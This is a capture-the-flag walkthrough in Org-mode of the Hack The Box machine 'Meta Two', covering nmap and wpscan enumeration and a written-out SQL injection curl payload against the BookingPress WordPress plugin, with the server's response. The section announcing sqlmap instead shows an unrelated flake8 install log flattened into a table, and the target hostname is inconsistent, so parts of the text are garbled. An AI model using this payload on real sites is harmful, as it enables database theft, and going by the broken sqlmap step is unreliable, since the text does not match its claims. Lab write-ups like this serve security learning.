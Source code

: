 #+title: Meta Two
#+result: output

** Connection and nmap
First we connect to the openvpn that HTB provides us and spin the machine
Then we will use nmap, as usual for enumeration:

#+begin_src sh
sudo nmap -sC -sV -T4 10.10.11.186
#+end_src

#+RESULTS:

The options are following:
-sC: to use the default scripts
-sV: probes the open ports for system information
-T4: to define the aggressiveness of the scan

** First steps

We can gather that there are 3 open ports: 21 (ftp), 22 (ssh) and 80 (http).

The version of OpenSSH that is being used does not seem to be vulnerable but
we can try other things such as connecting through ftp:
#+begin_src sh
ftp 10.10.11.186
#+end_src

#+RESULTS:

and trying to log as anonymous. This does not work.

So we are left with the http service which we know that is nginx/1.18.0 and the
hostname is http://metapress.htb/.

We then have to go to /etc/hosts and append the ip and hostname using any text
editor.
This allows us to open the hostname in the browser without any problem.

Of course this is true for Linux (which you probably should be using), in Windows is
a little more complicated and I struggled to be able to do this the first time. I
tried to change the host file in System32, then flush the dns and nothing worked.
Finally I simply installed firefox in WSL2 Kali and I use VcXsrv to view all GUI
apps.

One way or another we should be able to browse the page now.

** Looking for vulnerabilities

We can look at the source code and it does not seem to be leaking any credentials
but we can see it's a Wordpress site. We can play around with the forms and
explore a little. Now we will use wpscan which is a command line tool for Wordpress
security.

#+begin_src sh
wpscan --url http://metapress.htb
#+end_src

#+RESULTS:

You can look them up in https://wpscan.com/wordpress/562 and go through each of
them but if we go back to the source code of the events page we can see that is
using a plugin called Bookingpress and filter our search. In the same page we
can see that there is a SQL injection vulnerability and a proof of concept.  In
the curl command that is provided we can see that is taking advantage of
Wordpress nonces, which we can look in the source code such as the one in the
generateSpamCatcha function.

There is a lot of information there but the first thing that catches the eye is
the fact that is telling us that the version of Wordpress (5.6.2) is identified
as insecure. So we will look for the vulnerabilities associated with this version.

So the command we have to use would look like something like this:
#+begin_src sh
curl -i 'http://metapress.htb.com/wp-admin/admin-ajax.php'--data
'action=bookingpress_front_get_category_services&_wpnonce=1b624223cc&category_id=29&total_service=-7507)
UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,-5,-5,-5,-5,-5,-5--
-'
#+end_src

#+RESULTS:

You should replace the nonce with the one that you can find in the source code, and the output will be like this:

#+begin_quote
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Thu, 23 Mar 2023 07:08:14 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]
#+end_quote

Now we can use sqlmap, which is a tool for automating the process of detecting
and exploiting SQL injection vulnerabilities. We can use it to identify the
database management system, enumerate databases, tables and columns, extract the
data and even run commands.

#+begin_src sh :exports code
pip install --upgrade flake8
#+end_src

#+RESULTS:
| Defaulting   | to                          | user                                    | installation         | because        | normal                                        | site-packages | is      | not     | writeable |
| Collecting   | flake8                      |                                         |                      |                |                                               |               |         |         |           |
| Using        | cached                      | flake8-6.0.0-py2.py3-none-any.whl       | (57                  | kB)            |                                               |               |         |         |           |
| Collecting   | pycodestyle<2.11.0,>=2.10.0 |                                         |                      |                |                                               |               |         |         |           |
| Using        | cached                      | pycodestyle-2.10.0-py2.py3-none-any.whl | (41                  | kB)            |                                               |               |         |         |           |
| Collecting   | pyflakes<3.1.0,>=3.0.0      |                                         |                      |                |                                               |               |         |         |           |
| Using        | cached                      | pyflakes-3.0.1-py2.py3-none-any.whl     | (62                  | kB)            |                                               |               |         |         |           |
| Requirement  | already                     | satisfied:                              | mccabe<0.8.0,>=0.7.0 | in             | /home/fede/.local/lib/python3.8/site-packages | (from         | flake8) | (0.7.0) |           |
| Installing   | collected                   | packages:                               | pyflakes,            | pycodestyle,   | flake8                                        |               |         |         |           |
| Attempting   | uninstall:                  | pyflakes                                |                      |                |                                               |               |         |         |           |
| Found        | existing                    | installation:                           | pyflakes             | 2.4.0          |                                               |               |         |         |           |
| Uninstalling | pyflakes-2.4.0:             |                                         |                      |                |                                               |               |         |         |           |
| Successfully | uninstalled                 | pyflakes-2.4.0                          |                      |                |                                               |               |         |         |           |
| Successfully | installed                   | flake8-6.0.0                            | pycodestyle-2.10.0   | pyflakes-3.0.1 |                                               |               |         |         |           |
